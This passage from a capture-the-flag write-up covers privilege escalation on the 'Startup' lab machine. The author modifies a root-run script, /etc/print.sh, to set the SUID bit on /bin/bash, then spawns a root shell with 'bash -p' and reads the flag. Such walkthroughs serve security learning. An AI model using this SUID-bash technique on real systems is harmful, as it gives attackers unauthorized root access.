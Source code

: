 At this point i get a bit lost, but checking closely we can see that the `startup_list.txt` is being modified every minute.

```bash
lennie@startup:~/scripts$ ls -l
total 8
-rwxr-xr-x 1 root root 77 Nov 12  2020 planner.sh
-rw-r--r-- 1 root root  1 Jan 11 16:53 startup_list.txt

lennie@startup:~/scripts$ ls -l
total 8
-rwxr-xr-x 1 root root 77 Nov 12  2020 planner.sh
-rw-r--r-- 1 root root  1 Jan 11 16:54 startup_list.txt
```

So that means that somehow the `planner.sh` is being executed and needs to be the `root` user because no one but `root` can modify `startup_list.txt` so let's modify the `/etc/print.sh` to gain a elevated shell.

```bash
lennie@startup:~/scripts$ vim /etc/print.sh 
#!/bin/bash
chmod u+s /bin/bash
```

This will add **SUID** perms to the `bash` binary.

Now let's just wait until `root` executes the script `planner.sh` and let's see if the `bash` binary converted to `SUID`.

```bash
lennie@startup:~/scripts$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1037528 Jul 12  2019 /bin/bash
```

There we go we can see in the perms that it converted to `SUID`, so we now can spawn a elevated shell.

```bash
lennie@startup:~/scripts$ bash -p
bash-4.3# whoami
root
```

Now we can take a look at the `root.txt` flag.

```bash
bash-4.3# cat /root/root.txt 
THM{f963a******0f2102221******c3d76d}
```

---
## Final Thoughts

The **Startup CTF** was a well-balanced challenge with a straightforward exploitation phase and a privilege escalation that, while not overly difficult, was delightfully tricky. An enjoyable machine that keeps you engaged and sharpens your problem-solving skills.

![Desktop View](StartupPwn.png)

-- -
**Thanks for reading, i’ll appreciate that you take a look to my other posts :)**

